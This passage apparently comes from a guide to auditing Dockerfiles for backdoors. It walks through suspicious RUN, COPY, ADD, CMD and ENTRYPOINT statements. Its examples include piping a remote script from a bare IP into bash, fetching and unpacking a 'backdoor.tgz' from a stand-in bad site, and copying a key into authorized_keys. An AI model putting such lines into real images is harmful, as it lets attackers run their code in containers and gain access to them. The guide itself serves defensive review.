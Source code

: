 I've seen a fair amount of the following attempt to download "backdoored" binaries in `Dockerfiles`.
```Dockerfile
RUN curl -sL https://IP/setup_14.x | bash -
```

Make sure that the image you're building, downloads files from official sources and pay attention at commands that redirect or pipe their output.

### The COPY/ADD statement
Pay close attention to `COPY` commands and more specificaly the
`COPY --from=<name|index>`.

Remember the multi-stage builds from above? This is where the COPY command may
come in handy.
```Dockerfile
FROM debian #index 0
...
FROM redhat #index 1
...
FROM backdoor #index 2
...
FROM debian #index 3
...
# Makes it hard to track what index each image has
COPY --from=2 /etc/sshd/ssh_host_key ~/.ssh/authorized_keys
```

Another statement is `ADD` that performs very similar tasks as `COPY` does but
with a few twists. One of them is the ability to fetch files from the network
to be added to the image.

```Dockerfile
ADD https://some.bad.site/backdoor.tgz /tmp
RUN tar zxf /tmp/backdoor.tgz -C /
```

### The CMD statement
This defines the default command to be passed to the `ENTRYPOINT` when the
image is run. I make sure the default command looks ok and if it refers to a
script, i inspect its contents to try and figure out what it does.

```Dockerfile
CMD ["/bin/ba.sh"]
```


### The ENTRYPOINT statement
The `ENTRYPOINT` defines the `init` for the image. The command from `CMD` is passed to this.

I always inspect the `ENTRYPOINT` entries and their contents.
```Dockerfile
ENTRYPOINT ["/something-that-looks-or-has-suspicious-contents.sh"]
```

## Package manager repos
Pay attention at what package managers the container uses and ensure there are no bad repos in there.
